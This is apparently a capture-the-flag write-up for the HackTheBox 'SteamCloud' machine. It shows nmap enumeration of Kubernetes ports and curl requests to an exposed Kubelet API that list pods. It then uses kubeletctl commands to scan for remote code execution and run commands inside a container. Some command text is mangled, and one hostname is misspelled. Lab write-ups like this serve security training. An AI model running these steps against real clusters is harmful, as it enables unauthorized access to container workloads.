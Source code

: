 # nmap
##  nmap all ports
![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/nmap-all-ports.png)
Theres a bunch of Kubernets related services and ports:
2379: etcd-client
2380: etcd-server
10250: https-alt: Kubelet --> Kubernetes extension
8443: Kubernetes API 
![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubernetes%20assigned%20prts.png)

##  Kubernetes API port: 8443
````
curl https:##  steamcloud.htb:8443 -k

`````
Access is denied
![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubernetes%20API%20enum.png)

##  receive pods (containers) file from Kubelet API on port 10250
````

curl https:##  steamcloud.htb:10250/pods -k

````

One receives all the pods from K8s cluster
![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20pods%20file%20snippet.png)

# kubeletctl
To interact with the pods use kubeletctl client

##  List pods on server
````
./kubeletctl --server steamcloud.htb pods

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20pods%20on%20server.png)

##  Scan if any nodes allow to execute commands
````
./kubeletctl --server steamcloud.htb scan rce

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20scan%20pods%20for%20remote%20commands.png)

Execute command: id on nginx server
````

kubeletctl --server steamclout.htb exec "id" --pod nginx --container nginx
````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20execute%20remote%20command.png)

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20retrieve%20certificate.png)











XXXXXXXXXXXXX